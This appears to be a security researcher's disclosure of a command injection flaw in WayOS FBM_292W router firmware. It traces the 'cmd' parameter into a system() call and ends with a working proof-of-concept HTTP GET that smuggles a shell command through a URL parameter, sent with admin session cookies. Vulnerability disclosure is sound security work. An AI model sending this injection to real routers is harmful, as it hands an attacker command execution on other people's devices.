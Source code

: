 Firmware version:

FBM_292W-21.03.10V.trx

Download address:

https://www.wayos.com/product/jiatingzuwang/jiayongwuxian/jiatingwifituijian/2189.html

Command injection vulnerability:

Command injection exists in the sub_4901E0 function. On line 23, httpd_get_parm sets the flag value of parameter a1 to parm；
![[Pasted image 20240806145004.png]]
In line 45, the value off_755C3C is "cmd"; 
When the parameter is passed in, just carry "cmd" and it will be executed to line 68；
Then the sprintf function is concatenated to v21, and the value of v21 is executed as the parameter of system, resulting in command injection；
![[Pasted image 20240806145155.png]]

Here is the FirmAE simulated firmware command injection process:

![[0ac763777c802f91b1ccc3700d1e5ce.png]]
![[Pasted image 20240806150808.png]]

poc：

```
GET /msp_info.htm?flag=cmd&cmd=`ps%3Ea.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86; userid=root; gw_userid=root,gw_passwd=877EDB10AA120D0CE79068CAAE4F6C3A,gw_token=1j2BdpVQZ7o07qq,gw_code=GjyJNVuv302420X

Connection: close


```

